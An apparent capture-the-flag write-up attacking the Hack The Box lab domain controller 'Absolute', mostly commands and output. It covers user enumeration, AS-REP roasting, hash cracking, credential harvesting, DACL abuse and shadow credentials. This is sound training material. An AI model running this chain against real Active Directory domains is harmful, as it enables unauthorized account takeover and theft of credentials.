

# Absolute
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.181 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 19:44 BST
Nmap scan report for 10.10.11.181 (10.10.11.181)
Host is up (0.10s latency).
Not shown: 65509 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49686/tcp open  unknown
49692/tcp open  unknown
49699/tcp open  unknown
49703/tcp open  unknown
```
```
└─$ nmap -Pn -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV 10.10.11.181  --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 19:36 BST
Nmap scan report for 10.10.11.181 (10.10.11.181)
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Absolute
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-04 01:35:57Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-04T01:36:48+00:00; +6h59m17s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-04T01:36:49+00:00; +6h59m17s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
|_ssl-date: 2023-10-04T01:36:48+00:00; +6h59m17s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-04T01:36:49+00:00; +6h59m17s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-10-04T01:36:42
|_  start_date: N/A
|_clock-skew: mean: 6h59m16s, deviation: 0s, median: 6h59m16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.79 seconds
```
- `smb`
```
└─$ smbclient -N -L //10.10.11.181                                                               
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.181 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
- `ldap`
```
└─$ ldapsearch -H ldap://dc.absolute.htb -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=absolute,DC=htb
namingcontexts: CN=Configuration,DC=absolute,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=absolute,DC=htb
namingcontexts: DC=DomainDnsZones,DC=absolute,DC=htb
namingcontexts: DC=ForestDnsZones,DC=absolute,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://dc.absolute.htb -x  -b "DC=absolute,DC=htb"  
# extended LDIF
#
# LDAPv3
# base <DC=absolute,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1                     
```
- `dns`
```
└─$ dig absolute.htb @dc.absolute.htb                                                                                   

; <<>> DiG 9.18.16-1-Debian <<>> absolute.htb @dc.absolute.htb
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 38236
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;absolute.htb.                  IN      A

;; ANSWER SECTION:
absolute.htb.           600     IN      A       10.10.11.181

;; Query time: 103 msec
;; SERVER: 10.10.11.181#53(dc.absolute.htb) (UDP)
;; WHEN: Wed Oct 04 17:29:51 BST 2023
;; MSG SIZE  rcvd: 57

```
```
└─$ dig axfr absolute.htb @dc.absolute.htb 

; <<>> DiG 9.18.16-1-Debian <<>> axfr absolute.htb @dc.absolute.htb
;; global options: +cmd
; Transfer failed.
```
- `dnsenum`
```
└─$ dnsenum --dnsserver 10.10.11.181 -f /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt absolute.htb
dnsenum VERSION:1.2.6

-----   absolute.htb   -----                                                                                                                                                                                                                


Host's addresses:                                                                                                                                                                                                                           
__________________                                                                                                                                                                                                                          

absolute.htb.                            600      IN    A        10.10.11.181                                                                                                                                                               


Name Servers:                                                                                                                                                                                                                               
______________                                                                                                                                                                                                                              

dc.absolute.htb.                         1200     IN    A        10.10.11.181                                                                                                                                                               


Mail (MX) Servers:                                                                                                                                                                                                                          
___________________                                                                                                                                                                                                                         


Trying Zone Transfers and getting Bind Versions:                                                                                                                                                                                            
_________________________________________________                                                                                                                                                                                           

unresolvable name: dc.absolute.htb at /usr/bin/dnsenum line 900.                                                                                                                                                                            
                                                                                                                                                                                                                                            
Trying Zone Transfer for absolute.htb on dc.absolute.htb ... 
AXFR record query failed: no nameservers


Brute forcing with /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:                                                                                                                                                     
________________________________________________________________________________________                                                                                                                                                    
  
dc.absolute.htb.                         1200     IN    A        10.10.11.181                                                                                                                                                               
domaindnszones.absolute.htb.             600      IN    A        10.10.11.181
forestdnszones.absolute.htb.             600      IN    A        10.10.11.181

absolute.htb class C netranges:
________________________________


Performing reverse lookup on 0 ip addresses:
_____________________________________________

0 results out of 0 IP addresses.

absolute.htb ip blocks:
________________________

done.
```

- Web Server


- `gobuster`

```
└─$ gobuster dir -u http://absolute.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50  -x asp,aspx -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://absolute.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/10/04 18:21:54 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 150] [--> http://absolute.htb/images/]
/css                  (Status: 301) [Size: 147] [--> http://absolute.htb/css/]
/js                   (Status: 301) [Size: 146] [--> http://absolute.htb/js/]
/fonts                (Status: 301) [Size: 149] [--> http://absolute.htb/fonts/]
```

- `feroxbuster`
```
└─$ feroxbuster -u http://absolute.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://absolute.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        2l       10w      150c http://absolute.htb/images => http://absolute.htb/images/
301      GET        2l       10w      146c http://absolute.htb/js => http://absolute.htb/js/
301      GET        2l       10w      147c http://absolute.htb/css => http://absolute.htb/css/
200      GET       33l       64w      782c http://absolute.htb/js/main.js
200      GET        6l       77w     3351c http://absolute.htb/css/owl.carousel.min.css
200      GET      145l      442w     4030c http://absolute.htb/css/style.css
200      GET        5l      369w    21003c http://absolute.htb/js/popper.min.js
200      GET        7l      277w    44342c http://absolute.htb/js/owl.carousel.min.js
200      GET     4919l     8218w    79820c http://absolute.htb/fonts/icomoon/style.css
200      GET        0l        0w    86926c http://absolute.htb/js/jquery-3.3.1.min.js
200      GET        0l        0w    77906c http://absolute.htb/css/animate.css
200      GET        0l        0w  5501527c http://absolute.htb/images/hero_6.jpg
200      GET        0l        0w  1834774c http://absolute.htb/images/hero_5.jpg
200      GET        0l        0w  2085276c http://absolute.htb/images/hero_4.jpg
200      GET        0l        0w   160392c http://absolute.htb/css/bootstrap.min.css
200      GET        0l        0w   374185c http://absolute.htb/images/hero_2.jpg
200      GET        0l        0w    63240c http://absolute.htb/js/bootstrap.min.js
200      GET        0l        0w   381437c http://absolute.htb/images/hero_3.jpg
200      GET        0l        0w   407495c http://absolute.htb/images/hero_1.jpg
200      GET       85l      196w     2909c http://absolute.htb/
403      GET       29l       92w     1233c http://absolute.htb/fonts/
403      GET       29l       92w     1233c http://absolute.htb/fonts/icomoon/
301      GET        2l       10w      149c http://absolute.htb/fonts => http://absolute.htb/fonts/
301      GET        2l       10w      163c http://absolute.htb/fonts/icomoon/fonts => http://absolute.htb/fonts/icomoon/fonts/

```

## Foothold
- I downloaded the `hero` images
  - Let's run them via `exiftool` and look for authors
```
└─$ for i in {1..6}; do (exiftool hero_$i.jpg | grep Author | awk '{print $3 " " $4}'); done
James Roberts
Michael Chaffrey
Donald Klay
Sarah Osvald
Jeffer Robinson
Nicole Smith

```
- Now, we have a list of users
  - Let's generate a user list
```
└─$ username-anarchy -i usernames > user.list
```
```
└─$ head user.list
james
jamesroberts
james.roberts
jamesrob
jamerobe
jamesr
j.roberts
jroberts
rjames
r.james
```

- Let's find valid users
```
└─$ kerbrute userenum --dc dc.absolute.htb -d absolute.htb user.list   

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/04/23 - Ronnie Flathers @ropnop

2023/10/04 18:47:10 >  Using KDC(s):
2023/10/04 18:47:10 >   dc.absolute.htb:88

2023/10/04 18:47:10 >  [+] VALID USERNAME:       j.roberts@absolute.htb
2023/10/04 18:47:10 >  [+] VALID USERNAME:       m.chaffrey@absolute.htb
2023/10/04 18:47:11 >  [+] VALID USERNAME:       s.osvald@absolute.htb
2023/10/04 18:47:11 >  [+] VALID USERNAME:       d.klay@absolute.htb
2023/10/04 18:47:11 >  [+] VALID USERNAME:       j.robinson@absolute.htb
2023/10/04 18:47:11 >  [+] VALID USERNAME:       n.smith@absolute.htb
2023/10/04 18:47:12 >  Done! Tested 88 usernames (6 valid) in 1.454 seconds
```

- Let's see if any of valid users is `AS-REP`-Roastable
```
└─$ impacket-GetNPUsers -dc-ip dc.absolute.htb -usersfile user.list absolute.htb/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:496204f8dd4267acdea35229d3482c2d$416205d46cb698bf8c23274bf389333b88833c779b9dccb21a57f67ee21c5433de9a2c5003a187c29cf9288b654bc9f8771439ed11a9dc0b109aa256bdb9321079c91e8650bbe113069a9c5872a735ab7c1f7b6aca81fbb523646dd13d96999acfc814e17a3e6819452e0d9be4f1002a380d172bf2ad4b89218018daeea5112c863742e21e43ff333d70cd58f822126bf95dbcbb08bbfe922a04d74eb6cea046adb1d4a3b54199ae62c48cb76cd0de9626cc3830e229d4fb1fa9a232c80edb402ece738142cc979888523f544b21ec1a0d5e78205866653c167af0da000d2957b17336a23c254e8f7c7413c7
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- Let's crack the hash
```
└─$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt     
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...
$krb5asrep$23$d.klay@ABSOLUTE.HTB:496204f8dd4267acdea35229d3482c2d$416205d46cb698bf8c23274bf389333b88833c779b9dccb21a57f67ee21c5433de9a2c5003a187c29cf9288b654bc9f8771439ed11a9dc0b109aa256bdb9321079c91e8650bbe113069a9c5872a735ab7c1f7b6aca81fbb523646dd13d96999acfc814e17a3e6819452e0d9be4f1002a380d172bf2ad4b89218018daeea5112c863742e21e43ff333d70cd58f822126bf95dbcbb08bbfe922a04d74eb6cea046adb1d4a3b54199ae62c48cb76cd0de9626cc3830e229d4fb1fa9a232c80edb402ece738142cc979888523f544b21ec1a0d5e78205866653c167af0da000d2957b17336a23c254e8f7c7413c7:Darkmoonsky248girl
...
```

- Let's test the creds
  - `d.klay:Darkmoonsky248girl`
  - `STATUS_ACCOUNT_RESTRICTION` means we have to use `-k` for Kerberos auth
    - In case you see `KRB_AP_ERR_SKEW`, just run `sudo ntpdate 10.10.11.181`, since kerberos requires time sync
```
└─$ crackmapexec smb absolute.htb -u d.klay -p 'Darkmoonsky248girl'           
SMB         absolute.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         absolute.htb    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
```
```
└─$ crackmapexec smb absolute.htb -u d.klay -p 'Darkmoonsky248girl' -k
SMB         absolute.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         absolute.htb    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl
```

## User #1
- Let's gather domain information
```
└─$ impacket-getTGT absolute.htb/d.klay:'Darkmoonsky248girl' -dc-ip dc.absolute.htb 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in d.klay.ccache
```
```
└─$ KRB5CCNAME=d.klay.ccache bloodhound-python -u d.klay -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 -c ALL --zip -k                    
Password: 
INFO: Found AD domain: absolute.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Kerberos auth to LDAP failed, trying NTLM
ERROR: Failure to authenticate with LDAP! Error 8009030C: LdapErr: DSID-0C0906B5, comment: AcceptSecurityContext error, data 52f, v4563
```

- I received an error using `bloodhound`
  - Let's use `ldapsearch`
  - But we need a ticket
```
└─$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = ABSOLUTE.HTB

[realms]
        ABSOLUTE.HTB = {
                kdc = 10.10.11.181
        }

[domain_realm]
        .absolute.htb = ABSOLUTE.HTB
        absolute.htb = ABSOLUTE.HTB 

```
```
└─$ kinit d.klay

```
```
└─$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: d.klay@ABSOLUTE.HTB

Valid starting       Expires              Service principal
10/05/2023 02:05:40  10/05/2023 06:05:40  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
        renew until 10/05/2023 06:05:40

```

- Now, we run `ldapsearch`
  - Let's check users
  - Make sure that
    - `/etc/hosts` has the following entry `10.10.11.181    dc.absolute.htb absolute.htb`
    - `libsasl2-modules-gssapi-mit` is installed
  - We could also run `crackmapexec ldap 10.10.11.181 -u d.klay -p 'Darkmoonsky248girl' -k --users`
```
└─$ ldapsearch -H ldap://absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb"
SASL/GSSAPI authentication started
SASL username: d.klay@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <cn=users,dc=absolute,dc=htb> with scope subtree
...
dn: CN=svc_smb,CN=Users,DC=absolute,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: svc_smb
description: AbsoluteSMBService123!
distinguishedName: CN=svc_smb,CN=Users,DC=absolute,DC=htb
instanceType: 4
whenCreated: 20220609082551.0Z
whenChanged: 20220822163634.0Z
uSNCreated: 16636
memberOf: CN=Protected Users,CN=Users,DC=absolute,DC=htb
uSNChanged: 40999
name: svc_smb
...
# search result
search: 4
result: 0 Success

# numResponses: 42
# numEntries: 41

```

- `svc_smb` looks like has a password in `description` field
  - `svc_smb:AbsoluteSMBService123!`
  - The creds are valid
```
└─$ sudo ntpdate 10.10.11.181; crackmapexec smb 10.10.11.181 -u svc_smb -p 'AbsoluteSMBService123!' -k 
2023-10-05 03:00:19.193039 (+0100) +25157.322135 +/- 0.050155 10.10.11.181 s1 no-leap
CLOCK: time stepped by 25157.322135
SMB         10.10.11.181    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123!
```

- I found a solution for `bloodhound` issue I had
  - I had to run `bloodhound-python` with flag `-v`
    - It showed `KRB_AP_ERR_SKEW(Clock skew too great)` despite running `ntpdate 10.10.11.181`
    - So it happened that after syncing with `DC`, my box during `ldap` queries reverted back to initial time
      - Could be due to time-sync with `openvpn`
  - So I had to perform 2 steps
  - `apt install systemd-timesyncd` and then `timedatectl set-ntp 0`
  - Then we do `ntpdate 10.10.11.181`
```
└─$ impacket-getTGT absolute.htb/svc_smb:'AbsoluteSMBService123!' -dc-ip dc.absolute.htb 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in svc_smb.ccache
```
```
└─$ KRB5CCNAME=svc_smb.ccache bloodhound-python -u svc_smb -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 -c ALL --zip -k -v
Password: 
DEBUG: Resolved collection methods: trusts, localadmin, psremote, acl, container, session, group, objectprops, dcom, rdp
DEBUG: Using DNS to retrieve domain information
DEBUG: Querying domain controller information from DNS
DEBUG: Using domain hint: absolute.htb
INFO: Found AD domain: absolute.htb
DEBUG: Found primary DC: dc.absolute.htb
DEBUG: Found Global Catalog server: dc.absolute.htb
DEBUG: Found KDC for enumeration domain: dc.absolute.htb

...
```

- Nothing new in `bloodhound`
  - Let's check `smb` with new creds, since name implies it
```
└─$ crackmapexec smb dc.absolute.htb -k -u svc_smb -p 'AbsoluteSMBService123!' --shares
SMB         dc.absolute.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SMB         dc.absolute.htb 445    DC               [+] Enumerated shares
SMB         dc.absolute.htb 445    DC               Share           Permissions     Remark
SMB         dc.absolute.htb 445    DC               -----           -----------     ------
SMB         dc.absolute.htb 445    DC               ADMIN$                          Remote Admin
SMB         dc.absolute.htb 445    DC               C$                              Default share
SMB         dc.absolute.htb 445    DC               IPC$            READ            Remote IPC
SMB         dc.absolute.htb 445    DC               NETLOGON        READ            Logon server share 
SMB         dc.absolute.htb 445    DC               Shared          READ            
SMB         dc.absolute.htb 445    DC               SYSVOL          READ            Logon server share
```

- Let's check `Shared`
  - We have 2 files, let's download them
```
└─$ impacket-smbclient -k 'absolute.htb/svc_smb:AbsoluteSMBService123!@dc.absolute.htb' -dc-ip 10.10.11.181
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# use shared
# ls
drw-rw-rw-          0  Thu Sep  1 18:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 18:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 18:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 18:02:23 2022 test.exe
# mget *
[*] Downloading compiler.sh
[*] Downloading test.exe

```

- `compiler.sh` just compiles the `nim` program
  - While `test.exe` is `32-bit` windows executable
```
└─$ cat compiler.sh                                                                    
#!/bin/bash

nim c -d:mingw --app:gui --cc:gcc -d:danger -d:strip $1
```
```
└─$ file test.exe                                                                                        
test.exe: PE32+ executable (GUI) x86-64 (stripped to external PDB), for MS Windows, 11 sections                                                                                           
```

- I tried running the executable from my windows host
  - Nothing happened, so I ran `wireshark` to see if there are any packets
  - First I saw bunch of `dns` queries `_ldap._tcp.dc.absolute.htb: type SRV, class IN`


- So I had to update my `hosts` file with `_ldap._tcp.dc.absolute.htb`
  - Now we see bind attempts to `LDAP` as `mlovegod` user
  - `mlovegod:AbsoluteLDAP2022!`


- But if we check `bloodhound` there is a `m.lovegod` user, thus it had typo
  - That's why `test.exe` couldn't bind using creds
```
└─$ crackmapexec smb 10.10.11.181 -u m.lovegod -p 'AbsoluteLDAP2022!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022! 
```

## User #2
- We have a potential path



- We own `Network Audit` group, so we can become members of `Network Audit` group
  - Then we can create shadow credentials `winrm_user`
    - https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
  - I had to download the following branch `https://github.com/ShutdownRepo/impacket/tree/dacledit`
    - ``

```
└─$ git clone https://github.com/ShutdownRepo/impacket.git 
Cloning into 'impacket'...
remote: Enumerating objects: 24084, done.
remote: Counting objects: 100% (5020/5020), done.
remote: Compressing objects: 100% (523/523), done.
remote: Total 24084 (delta 4627), reused 4723 (delta 4497), pack-reused 19064
Receiving objects: 100% (24084/24084), 9.89 MiB | 1.75 MiB/s, done.
Resolving deltas: 100% (18308/18308), done.
└─$ git branch -a
* master
  remotes/origin/CVE-2021-42278
  remotes/origin/HEAD -> origin/master
  remotes/origin/aclattack
  remotes/origin/ccache-to-kirbi
  remotes/origin/dacledit
  remotes/origin/describeTicket
  remotes/origin/findDelegation
  remotes/origin/getST
  remotes/origin/getST-u2u
  remotes/origin/getaddescriptions
  remotes/origin/getuserspns
  remotes/origin/getuserspns-nopreauth
  remotes/origin/http-multi-relay
  remotes/origin/kdctime
  remotes/origin/master
  remotes/origin/ndr
  remotes/origin/ntlmrelayx
  remotes/origin/owneredit
  remotes/origin/rbcd
  remotes/origin/reg-save
  remotes/origin/relay-user-multi
  remotes/origin/renameMachine
  remotes/origin/s4u2-scripts
  remotes/origin/sapphire-tickets
  remotes/origin/secretsdump.dcsyncall
  remotes/origin/shadowcredentials
  remotes/origin/sidhistory
  remotes/origin/test-refactor
  remotes/origin/tgssub
  remotes/origin/wiki
└─$ git checkout -b dacledit remotes/origin/dacledit 
branch 'dacledit' set up to track 'origin/dacledit'.
Switched to a new branch 'dacledit'
└─$ git branch                                  
* dacledit
└─$ pip3 install .         
Defaulting to user installation because normal site-packages is not writeable
Processing /home/Tools/impacket-dacl
  Preparing metadata (setup.py) ... done
...
```

- Now we can use `dacledit`
  - Let's add `WriteMembers` permission
```
└─$ KRB5CCNAME=m.lovegod.ccache dacledit.py -k 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights WriteMembers  
Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] DACL backed up to dacledit-20231006-010120.bak
[*] DACL modified successfully!

```

- Now we add ourselves to `Network Audit` group
```
└─$ net rpc group members "Network Audit" -U 'absolute.htb\m.lovegod' --use-kerberos=required -S dc.absolute.htb
Password for [ABSOLUTE.HTB\m.lovegod]:
absolute\svc_audit
└─$ net rpc group addmem "Network Audit" "m.lovegod" -U 'absolute.htb\m.lovegod' --use-kerberos=required -S dc.absolute.htb                                                                                   
Password for [ABSOLUTE.HTB\m.lovegod]:
└─$ net rpc group members "Network Audit" -U 'absolute.htb\m.lovegod' --use-kerberos=required -S dc.absolute.htb                                                                                                              
Password for [ABSOLUTE.HTB\m.lovegod]:
absolute\m.lovegod
absolute\svc_audit

```

- Now, we can change password or add shadow credentials
  - Let's do the second
    - https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
  - We need [certipy](https://github.com/ly4k/Certipy)
    - Or via [PyWhisker](https://0xdf.gitlab.io/2022/12/10/htb-outdated.html#beyond-root---skipped-steps)
  - Run it to check if `ADCS` is installed
```
└─$ KRB5CCNAME=m.lovegod.ccache certipy-ad find -username m.lovegod@absolute.htb -k -target dc.absolute.htb 
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'absolute-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'absolute-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'absolute-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'absolute-DC-CA'
[-] Got error: module 'enum' has no attribute '_decompose'
[-] Use -debug to print a stacktrace
```

- Reissue `TGT` for `m.lovegod` after adding him to group and then run `certipy-ad shadow auto`
```
└─$ impacket-getTGT absolute.htb/m.lovegod:'AbsoluteLDAP2022!' -dc-ip dc.absolute.htb                                                                                                                 
Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in m.lovegod.ccache

```
```
└─$ KRB5CCNAME=m.lovegod.ccache certipy-ad shadow auto -username m.lovegod@absolute.htb -account winrm_user -k -target dc.absolute.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'a1327c0b-fde8-0be2-42dd-d042f9874a21'
[*] Adding Key Credential with device ID 'a1327c0b-fde8-0be2-42dd-d042f9874a21' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID 'a1327c0b-fde8-0be2-42dd-d042f9874a21' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
